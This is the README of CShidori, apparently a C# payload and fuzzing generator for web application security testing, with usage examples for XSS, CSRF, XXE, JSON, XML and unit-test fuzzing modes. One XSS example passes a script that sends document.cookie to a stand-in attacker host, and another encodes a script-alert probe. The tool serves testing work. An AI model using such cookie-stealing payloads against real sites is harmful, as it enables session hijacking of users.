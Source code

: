 # CShidori

A C# "Thousand Birds" Payloads Generator

![](intro.png)

## Disclaimer

Usage of all tools on this site for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. We assume no liability and are not responsible for any misuse or damage caused by this site. This tools is provided "as is" without warranty of any kind.

## References

* OWASP Web Application Security Testing Guide: [07-Input Validation Testing](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/)

* Taisen: [Website](https://taisen.fr)

## Supported modes and payloads

* Mutation
* XSS
* JSON
* XML
* GET
* CSRF
* XXE
* MSTest
* Encoding
* List Dump

## Usage

### Mutation

```powershell
.\CShidori.exe -m mut -o 5 -p test
```

### XSS / Injections

```powershell
.\CShidori.exe -m xss -p 'document.location=\"https://attacker.lan?c=\"+document.cookie'
```

### JSON

```powershell
.\CShidori.exe -m json -p ..\testing\test.json
```

### XML

```powershell
.\CShidori.exe -m xml -p ..\testing\exemple.xml
```

### GET

```powershell
.\CShidori.exe -m get -p "?bar=foo&foo=bar"
```

### CSRF

```powershell
.\CShidori.exe -m csrf -o get -p http://target.lan -i "name1=value1&name2=value2"
.\CShidori.exe -m csrf -o post -p http://target.lan -i "name1=value1&name2=value2"
```

### XXE

```powershell
.\CShidori.exe -m xxe
```
### MSTEST
Test for Microsoft.VisualStudio.TestTools.UnitTesting
```powershell
.\CShidori.exe -m mst -p 'function( \"value1\", 2, FUZZ)' -i FUZZ
```

### Encode

```powershell
.\CShidori.exe -m enc -p "<script>alert(1)</script>"
```

### Dump

```powershell
.\CShidori.exe -m dump
```

## Miscellaneous

### SOAP & XSD

Removed since you can perform it from Visual Studio:
- Merge all XSD files in WSDL file
- Right click on the project and select "Add Service Reference" -> "WCF" -> "enter localPath"
